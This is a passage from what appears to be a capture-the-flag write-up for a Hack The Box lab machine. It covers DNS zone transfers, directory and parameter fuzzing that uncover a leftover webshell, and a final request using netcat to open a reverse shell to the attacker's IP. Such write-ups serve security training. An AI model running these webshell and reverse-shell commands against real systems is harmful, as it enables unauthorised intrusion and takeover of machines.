 ```
dig axfr pwnhats.htb @10.10.10.155
```
- pwnhats.htb
- mail1.pwnhats.htb
- www.pwnhats.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www.pwnhats.htb_ runs a shop with the E-Commerce software [PrestaShop](https://www.prestashop.com/en).

```
dig axfr rentahacker.htb @10.10.10.155
```

- mail1.rentahacker.htb
- sec03.rentahacker.htb
- www.rentahacker.htb
- rentahacker.htb

After putting them all into the _/etc/hosts_ file and browsing to all domains, the domain _www.rentahacker.htb_ runs a _"Rent-A-Hacker"_ blog on **WordPress**.

The domain _sec03.rentahacker.htb_ shows an image of a person with a Guy Fawkes mask and the text _"Owned by 31173 HAXXOR team!!!"_.
It looks like that this site is hacked and defaced, so the hackable part of the website has to be searched to gain access to it.

### Exploiting sec03.rentahacker.htb

Searching for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://sec03.rentahacker.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

Other than the default directories and files for the software [Mantis Bug Tracker](https://www.mantisbt.org/), there is also a file called _shell.php_.
It comes back as a blank page and this is probably the webshell the hackers left behind.

To use it, the parameter that it needs to execute commands has to be found out by fuzzing with **Wfuzz**:
```
wfuzz --hw 0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt http://sec03.rentahacker.htb/shell.php?FUZZ=id
```

The parameter _hidden_ comes back with a bigger file size and this is the parameter to use the webshell:
```
http://sec03.rentahacker.htb/shell.php?hidden=whoami
```

This outputs the result of `whoami` and the running user is called _ib01c03_, so command execution is successful.

Lets start a reverse shell connection:
```
GET /shell.php?hidden=nc 10.10.14.15 9001
Host: sec03.rentahacker.htb
(...)
```
